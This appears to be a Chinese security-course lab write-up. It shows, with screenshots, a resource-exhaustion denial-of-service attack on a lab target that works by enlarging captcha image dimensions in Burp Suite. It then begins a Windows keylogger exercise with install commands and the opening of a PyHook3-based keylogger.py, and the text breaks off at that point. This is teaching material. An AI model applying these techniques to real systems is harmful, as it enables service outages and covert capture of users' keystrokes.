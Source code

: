 # lab5: 拒绝服务攻击

## 5.1 : 内容大小可控导致的拒绝服务攻击漏洞原理以及演示

进入靶场, 检查元素:
![img:lab5-check](https://i.imgur.com/mWKSTfn.png)

检查 url 地址:
![img:5-url](https://i.imgur.com/DkWaVhR.png)


修改验证码图片大小:
![img:5-size](https://i.imgur.com/5usWesC.png)

设置浏览器代理:
![img:set-proxy](https://i.imgur.com/OFTMdit.png)


burp suite 拿到数据包:
![img:burp-suite](https://i.imgur.com/kjBKUP1.png)
通过 burp suite 写脚本批量消耗资源, 抓取数据包, 发到 repeater 模块:
![img:repeater](https://i.imgur.com/i8uUmQG.png)

点击 go 发送数据包, 默认大小是 718:
![img:default-size](https://i.imgur.com/uk1y2IE.png)
修改长宽, 可以看到延迟变高, 如果继续增大, 并批量运行可以发生宕机
![img:chang-lw](https://i.imgur.com/21h4WeB.png)

# lab6: 计算机木马
## 6.1 编程实现键盘记录功能

掌握木马的键盘记录功能的编程实现技术, 操作系统为 Windows, 并安装 Python 开发环境以及 Python 第三方库 PyHook
- 调试 7.2.6 节给出的 keylogger.py 程序.
- 运行 keylogger.py 程序.
- 修改 Windows 用户口令(或者文本文件), 观察 keylogger.py 程序的记录结果.


使用 pyhook 库, 需要下载依赖(还需要 visual studio):
```sh
pip install swig
pip install wheel
pip install pyhook3
```

```python
from ctypes import *
import pythoncom
import PyHook3 as pyHook
import win32clipboard

user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None

def get_current_process():
    global current_window, executable
    hwnd = user32.GetForegroundWindow()
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd, byref(pid))
```